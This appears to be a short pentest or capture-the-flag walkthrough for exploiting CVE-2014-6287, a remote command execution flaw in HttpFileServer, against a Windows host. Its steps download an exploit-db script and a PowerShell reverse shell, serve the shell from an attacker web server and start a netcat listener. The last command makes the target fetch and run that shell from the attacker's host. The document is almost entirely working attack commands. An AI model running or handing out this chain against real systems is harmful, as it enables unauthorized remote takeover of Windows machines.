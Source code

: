 # CVE : 2014-6287 ([49125](https://www.exploit-db.com/exploits/49125))

You can execute arbitrary commands on the remote Windows host.

## 1. Download the python script to kali
```
wget https://www.exploit-db.com/raw/49125 -O /tmp/49125.py
```

## 2. Download the powershell script to kali.
Local IP and port in the script needs to be changed.
```
wget https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1 -O ~/Downloads/steel/mini-reverse.ps1
```

## 3. Start python web server in kali
```
cd ~/Downloads/steel/
python3 -m http.server 80
```

## 4. Start netcat listener
```
rlwrap nc -lvnp ${lport}
```

## 5. Execute the script.
Execute the commands passed as the third argument.
```
cd /tmp
python3 49125.py $rhost [RPORT] "C:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe -c wget 'http://${lhost}/mini-reverse.ps1' -outfile 'C:\Users\Bill\Desktop\mini-reverse.ps1'; C:\Users\Bill\Desktop\mini-reverse.ps1" 
```
